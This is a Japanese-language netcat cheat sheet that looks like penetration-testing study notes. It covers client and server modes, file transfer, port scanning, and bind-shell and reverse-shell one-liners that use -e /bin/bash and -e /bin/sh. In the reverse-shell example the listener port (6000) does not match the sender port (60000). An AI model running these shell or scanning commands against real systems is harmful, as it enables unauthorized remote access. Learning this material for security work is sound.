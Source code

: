 # netcat

### クライアントモード

```
nc -nv 10.11.0.22 110
```

* -nオプション：DNS の名前解決をスキップする
* -vオプション：いくつかの冗長性を追加する 



### サーバーモード

```
nc -nlvp 4444
```

* -lオプション：リスナーを作成
* -pオプション：リスニングポート番号を指定



### ファイル転送

```bash
# reciever
nc -nlvp 4444 > incoming.exe
```

```bash
# sender
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```



### ポートスキャン

```bash
# TCP
nc -nvv -w 1 -z 10.11.1.220 3388-3390

# UDP
nc -nv -u -z -w 1 10.11.1.115 160-162
```

* -z : zero-I/O mode [used for scanning]
* -w secs : timeout for connects and final net reads



### バインドシェル

```bash
#　待ち受け
nc -lvnp 4444 -e /bin/bash

# 接続
nc -nv xxx.xxx.xxx.xxx 4444
```

* -vオプション：詳細出力を指定

* -eオプション：-e programで利用。接続の受け入れまたは実行後に外部プログラムを実行する

* バインドシェルはfirewallではじかれることが多い。



### リバースシェル

```bash
# sender
nc -nv 192.168.119.175 60000 -e /bin/sh

# listener
nc -lvnp 6000
```

